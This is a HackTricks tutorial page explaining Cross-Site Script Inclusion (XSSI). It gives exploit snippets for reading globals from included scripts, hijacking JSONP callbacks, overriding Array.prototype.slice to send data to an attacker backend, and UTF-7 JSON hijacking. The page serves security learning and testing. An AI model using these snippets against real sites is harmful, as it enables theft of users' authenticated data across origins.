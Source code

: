 

<details>

<summary><strong>HackTricks in </strong><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

- Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

- Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

- **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>


### The information was taken from [https://www.scip.ch/en/?labs.20160414](https://www.scip.ch/en/?labs.20160414)

# Basic Information

XSSI designates a kind of vulnerability which exploits the fact that, when a resource is included using the `script` tag, the SOP doesn’t apply, because scripts have to be able to be included cross-domain. An attacker can thus read everything that was included using the `script` tag.

This is especially interesting when it comes to dynamic JavaScript or JSONP when so-called ambient-authority information like cookies are used for authentication. The cookies are included when requesting a resource from a different host.

## Types

1. Static JavaScript (regular XSSI)
2. Static JavaScript, which is only accessible when authenticated
3. Dynamic JavaScript
4. Non-JavaScript

# Regular XSSI

The private information is located inside a global accessible JS file, you can just detect this by reading files, searching keywords or using regexps.\
To exploit this, just include the script with private information inside the malicious content:

```markup
<script src="https://www.vulnerable-domain.tld/script.js"></script>
<script> alert(JSON.stringify(confidential_keys[0])); </script>
```

# Dynamic-JavaScript-based-XSSI and Authenticated-JavaScript-XSSI

**Confidential information is added to the script when a user requests it**. This can be easily discovered by sending the request **with and without the cookies**, if **different information** is retrieved, then confidential information could be contained. To do this automatically you can use burp extension: [https://github.com/luh2/DetectDynamicJS](https://github.com/luh2/DetectDynamicJS).

If the information resides inside a global variable, you you can exploit it using the same code as for the the previous case.\
If the confidential data is sent inside a JSONP response, you can override the executed function to retrieve the information:

```markup
<script>
      //The confidential info will be inside the callback to angular.callbacks._7: angular.callbacks._7({"status":STATUS,"body":{"demographics":{"email":......}}})
      var angular = function () { return 1; };
      angular.callbacks = function () { return 1; };      
      angular.callbacks._7 = function (leaked) {
	  alert(JSON.stringify(leaked));
      };  
</script>
<script src="https://site.tld/p?jsonp=angular.callbacks._7" type="text/javascript"></script>
```

Or you could also set a prepared function to be executed by the JSONP response:

```markup
<script>
      leak = function (leaked) {
	  alert(JSON.stringify(leaked));
      };  
</script>
<script src="https://site.tld/p?jsonp=leak" type="text/javascript"></script>
```

If a variable does not reside inside the global namespace, sometimes this can be exploited anyway using _prototype tampering_. Prototype tampering abuses the design of JavaScript, namely that when interpreting code, JavaScript traverses the prototype chain to find the called property. The following example is extracted from the paper [The Unexpected Dangers of Dynamic JavaScript](https://www.usenix.org/system/files/conference/usenixsecurity15/sec15-paper-lekies.pdf) and demonstrates how overriding a relevant function of type `Array` and access to `this`, a non-global variable can be leaked as well.

```javascript
(function(){
  var arr = ["secret1", "secret2", "secret3"];
  // intents to slice out first entry
  var x = arr.slice(1);
  ...
})();
```

In the original code `slice` from type `Array` accesses the data we’re interested in. An attacker can, as described in the preceding clause, override `slice` and steal the secrets.

```javascript
Array.prototype.slice = function(){
  // leaks ["secret1", "secret2", "secret3"]
  sendToAttackerBackend(this);
};
```

Security Researcher [Sebastian Lekies](https://twitter.com/slekies) just recently updated his list of [vectors](http://sebastian-lekies.de/leak/).

# Non-Script-XSSI

Takeshi Terada describes another kind of XSSI in his paper [Identifier based XSSI attacks](https://www.mbsd.jp/Whitepaper/xssi.pdf). He was able to leak Non-Script files cross-origin by including, among others, CSV files as source in the `script` tag, using the data as variable and function names.

The first publicly documented XSSI attack was in 2006. Jeremiah Grossman’s blog entry [Advanced Web Attack Techniques using GMail](http://jeremiahgrossman.blogspot.ch/2006/01/advanced-web-attack-techniques-using.html) depicts a XSSI, which by overriding the `Array` constructor was able to read the complete address book of a google account.

In 2007 Joe Walker published [JSON is not as safe as people think it is](http://incompleteness.me/blog/2007/03/05/json-is-not-as-safe-as-people-think-it-is/). He uses the same idea to steal JSON that is inside an `Array`.

Other related attacks were conducted by injecting UTF-7 encoded content into the JSON to escape the JSON format. It is described by Gareth Heyes, author of [Hackvertor](https://hackvertor.co.uk/public), in the blog entry [JSON Hijacking](http://www.thespanner.co.uk/2011/05/30/json-hijacking/) released in 2011. In a quick test, this was still possible in Microsoft Internet Explorer and Edge, but not in Mozilla Firefox or Google Chrome.

JSON with UTF-7:

```javascript
[{'friend':'luke','email':'+ACcAfQBdADsAYQBsAGUAcgB0ACgAJwBNAGEAeQAgAHQAaABlACAAZgBvAHIAYwBlACAAYgBlACAAdwBpAHQAaAAgAHkAbwB1ACcAKQA7AFsAewAnAGoAbwBiACcAOgAnAGQAbwBuAGU-'}]
```

Including the JSON in the attacker’s page

```markup
<script src="http://site.tld/json-utf7.json" type="text/javascript" charset="UTF-7"></script>
```


<details>

<summary><strong>HackTricks in </strong><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

- Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

- Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

- **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>


